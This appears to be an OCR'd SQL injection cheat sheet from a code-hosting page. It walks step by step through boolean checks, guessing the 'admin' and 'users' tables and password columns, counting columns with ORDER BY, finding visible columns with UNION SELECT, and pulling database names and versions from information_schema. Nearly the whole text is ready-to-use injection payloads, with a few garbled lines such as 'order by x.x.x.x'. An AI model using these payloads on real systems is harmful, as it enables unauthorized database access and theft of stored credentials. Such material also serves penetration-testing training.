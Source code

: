  
' AND (select 1)=1  
Guessing Table name:  
' AND (select 1 from admin limit 0,1)=1  
' AND (select 1 from users limit 0,1)=1  

## Guessing Columns:

  
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1  
' AND (select substring(concat(1,password),1,1) from users limit 0,1)=  
  

## Now determine number of columns in the current table  

  
param=' or 1=1 order by 1#  
  
param=' or 1=1 order by x.x.x.x  
  
let say there are 3 columns  
  

## Now determine vulnerable columns or column which is visible

  
  
param=' or 1=0 union select null,null,null# --> if it produces no error then try  
  
param=' or 1=0 union select 1,2,3# --> check which number shows in web page  
  

## Else try

  
  
param=' or 1=1 union select table\_name,null,null from information\_schema.tables#  
  
if it produces error try table\_name at other positions  
  
Now, lets say column 1,2 are shown in web page  
  

## To futher enumerate

  
  
param=' or 1=0 union select table\_schema,null,null from information\_schema.columns# --> display all database name  
  
Note 1=0 in above query to show only databases  
  
param=' or 1=0 union select version(),null,null from information\_schema.columns# --> retrieve version  
  
param=' or 1=0 union select @@version,null,null from information\_schema.columns# --> retrieve version in mssql  
  
param=' or 1=0 union select substring(version(),1,1)=1,null,null from information\_schema.columns# --> return true if version is 1.x.x  
  